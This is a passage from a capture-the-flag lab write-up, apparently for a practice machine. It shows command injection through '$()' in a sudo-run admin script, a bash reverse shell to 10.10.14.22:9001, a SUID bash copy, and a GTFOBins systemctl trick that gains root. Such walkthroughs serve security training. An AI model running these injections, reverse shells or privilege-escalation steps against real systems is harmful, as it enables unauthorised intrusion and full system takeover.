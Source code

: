    Find a combination without the forbidden sign ...
    
    - `99. $(id)`
    -> groups=1000(pepper)
    This work and $ is not in the forbidden Array.

## $(command) - RCE

**1. Methode: Run [rev.sh](http://rev.sh) file**

We can execute the reverse shell code in the $() command, 
so we crate a file with the forbidden strings and run it.

```bash
#!/usr/bin/bash
bash -i >& /dev/tcp/10.10.14.22/9001 0>&1
```

- `sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`
    - `99. $(bash /tmp/rev.sh)`

**2. Methode: /bin/bash pepper file**

Create a copy of bash and set SGID, and it will be owned by pepper.

- `sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`
    - `99. $(/bin/cp /bin/bash /tmp/pepper)`
    - `99. $(chmod +s /tmp/pepper)`
- `/tmp/pepper -p`

→ uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)

---

# Privilege Escalation - Root

**Linpeas.sh**

[+] SUID - Check easy privesc, exploits and write perms

rwsr-x--- 1 root **pepper** 171K Feb 17 2019 /bin/systemctl

## GTFOBins - systemctl [📌](https://gtfobins.github.io/gtfobins/systemctl/)

```
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF /bin/systemctl edit system.slice
```

→ uid=1000(pepper) gid=1000(pepper) euid=0(root) groups=1000(pepper)